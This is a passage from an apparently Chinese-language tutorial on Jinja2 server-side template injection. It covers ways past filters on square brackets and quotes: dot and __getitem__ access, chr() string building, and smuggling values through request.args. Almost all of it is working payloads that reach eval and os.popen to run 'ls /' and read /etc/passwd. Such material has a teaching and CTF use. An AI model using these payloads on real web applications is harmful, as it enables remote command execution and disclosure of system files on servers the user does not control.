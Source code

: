 注意：最好不要用`pop()`，因为`pop()`**会删除相应位置的值。**

**利用字典读取绕过**

我们知道访问字典里的值有两种方法，一种是把相应的键放入熟悉的方括号 `[]` 里来访问，一种就是用点 `.` 来访问。所以，当方括号 `[]` 被过滤之后，我们还可以用点 `.` 的方式来访问，如下示例

```
// __builtins__.eval()

{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(59).__init__.__globals__.__builtins__.eval('__import__("os").popen("ls /").read()')}}
```

等同于：

```
// [__builtins__]['eval']()

{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}
```

#### 过滤了引号

**利用chr()绕过**

先获取chr()函数，赋值给chr，后面再拼接成一个字符串

```
{% set chr=().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__.chr%}{{().__class__.__bases__.[0].__subclasses__().pop(40)(chr(47)+chr(101)+chr(116)+chr(99)+chr(47)+chr(112)+chr(97)+chr(115)+chr(115)+chr(119)+chr(100)).read()}}

# {% set chr=().__class__.__bases__.__getitem__(0).__subclasses__()[59].__init__.__globals__.__builtins__.chr%}{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(chr(47)+chr(101)+chr(116)+chr(99)+chr(47)+chr(112)+chr(97)+chr(115)+chr(115)+chr(119)+chr(100)).read()}}
```

等同于

```
{{().__class__.__bases__[0].__subclasses__().pop(40)('/etc/passwd').read()}}
```

**利用request对象绕过**

示例：

```
{{().__class__.__bases__[0].__subclasses__().pop(40)(request.args.path).read()}}&path=/etc/passwd

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__[request.args.os].popen(request.args.cmd).read()}}&os=os&cmd=ls /
```

等同于：

```
{{().__class__.__bases__[0].__subclasses__().pop(40)('/etc/passwd').read()}}

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls /').read()}}
```
